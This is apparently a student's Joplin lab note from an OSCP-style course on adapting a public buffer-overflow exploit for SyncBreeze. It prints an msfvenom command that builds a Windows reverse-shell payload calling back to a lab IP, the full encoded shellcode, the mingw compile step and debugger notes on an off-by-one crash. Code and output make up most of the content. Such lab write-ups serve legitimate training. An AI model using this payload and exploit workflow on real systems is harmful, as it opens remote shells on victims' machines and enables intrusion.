 15.1.6.1

# 15.1.6.1
## 15.1.6.1.1. Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.

Generate our own payload (the bad characters were discovered during our previous working exploit)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 exitfunc=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with Encoding failed due to a bad character (index=51, char=0x0d)
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xfa\x97\x8e\xc9\x83\xee\xfc\xe2\xf4\x06\x7f\x0c\xc9\xfa\x97"
"\xee\x40\x1f\xa6\x4e\xad\x71\xc7\xbe\x42\xa8\x9b\x05\x9b\xee"
"\x1c\xfc\xe1\xf5\x20\xc4\xef\xcb\x68\x22\xf5\x9b\xeb\x8c\xe5"
"\xda\x56\x41\xc4\xfb\x50\x6c\x3b\xa8\xc0\x05\x9b\xea\x1c\xc4"
"\xf5\x71\xdb\x9f\xb1\x19\xdf\x8f\x18\xab\x1c\xd7\xe9\xfb\x44"
"\x05\x80\xe2\x74\xb4\x80\x71\xa3\x05\xc8\x2c\xa6\x71\x65\x3b"
"\x58\x83\xc8\x3d\xaf\x6e\xbc\x0c\x94\xf3\x31\xc1\xea\xaa\xbc"
"\x1e\xcf\x05\x91\xde\x96\x5d\xaf\x71\x9b\xc5\x42\xa2\x8b\x8f"
"\x1a\x71\x93\x05\xc8\x2a\x1e\xca\xed\xde\xcc\xd5\xa8\xa3\xcd"
"\xdf\x36\x1a\xc8\xd1\x93\x71\x85\x65\x44\xa7\xff\xbd\xfb\xfa"
"\x97\xe6\xbe\x89\xa5\xd1\x9d\x92\xdb\xf9\xef\xfd\x68\x5b\x71"
"\x6a\x96\x8e\xc9\xd3\x53\xda\x99\x92\xbe\x0e\xa2\xfa\x68\x5b"
"\x99\xaa\xc7\xde\x89\xaa\xd7\xde\xa1\x10\x98\x51\x29\x05\x42"
"\x19\xa3\xff\xff\x4e\x61\x8d\x41\xe6\xcb\xfa\x96\x35\x40\x1c"
"\xfd\x9e\x9f\xad\xff\x17\x6c\x8e\xf6\x71\x1c\x7f\x57\xfa\xc5"
"\x05\xd9\x86\xbc\x16\xff\x7e\x7c\x58\xc1\x71\x1c\x92\xf4\xe3"
"\xad\xfa\x1e\x6d\x9e\xad\xc0\xbf\x3f\x90\x85\xd7\x9f\x18\x6a"
"\xe8\x0e\xbe\xb3\xb2\xc8\xfb\x1a\xca\xed\xea\x51\x8e\x8d\xae"
"\xc7\xd8\x9f\xac\xd1\xd8\x87\xac\xc1\xdd\x9f\x92\xee\x42\xf6"
"\x7c\x68\x5b\x40\x1a\xd9\xd8\x8f\x05\xa7\xe6\xc1\x7d\x8a\xee"
"\x36\x2f\x2c\x6e\xd4\xd0\x9d\xe6\x6f\x6f\x2a\x13\x36\x2f\xab"
"\x88\xb5\xf0\x17\x75\x29\x8f\x92\x35\x8e\xe9\xe5\xe1\xa3\xfa"
"\xc4\x71\x1c";
```

## 15.1.6.1.2. Replace the original payload with the newly generated one.
Here is the replaced payload
![068a31d07e4d8642bd86dd3cb2297c4f.png](:/716ac3ad16d648318851e06fdbce3d8a)


## 15.1.6.1.3. Attach the debugger to the target process and set a breakpoint at the return address instruction.

Note the breakpoint at 0x10090c83
![c5c70c9956d39ffaecfa696699fa6c48.png](:/dfdae78533c74cdcb8b93bb86505c5bd)


## 15.1.6.1.4. Compile the exploit and run it. Did you hit the breakpoint?

It compiles without error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ ls -lah
total 2.5M
drwxr-xr-x  2 kali kali 4.0K Sep 26 17:33 .
drwxr-xr-x 12 kali kali 4.0K Sep 26 14:25 ..
-rw-r--r--  1 kali kali 4.9K Sep 26 17:28 42341.c
-rw-r--r--  1 kali kali 2.2M Sep 26 16:44 libspp.dll
-rwxr-xr-x  1 kali kali 287K Sep 26 17:33 syncbreeze_exploit.exe
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ 
```

However, we do not hit the breakpoint 0x10090c83. Instead it crashes at 0x9010090c, which is also the EIP register.
![f41f89bf3d3b67ba8b53104a12e095d0.png](:/e0ee17bfb34f4a3ea533fd4a93e304b7)

What happened? Inspect the stack window, you'll see we're off by one byte. Look at 0x01ab7450 and 0x01ab7454.
![33dcdac435c7535a217d5104eb7965c8.png](:/3db810a51d794862973da43190400c69)


id: c4065941784c46b691385df9aa41d02f
parent_id: efdb00ea124047f7820e6598ad5475ad
created_time: 2020-10-02T22:01:10.139Z
updated_time: 2020-10-02T22:01:11.047Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T22:01:10.139Z
user_updated_time: 2020-10-02T22:01:11.047Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1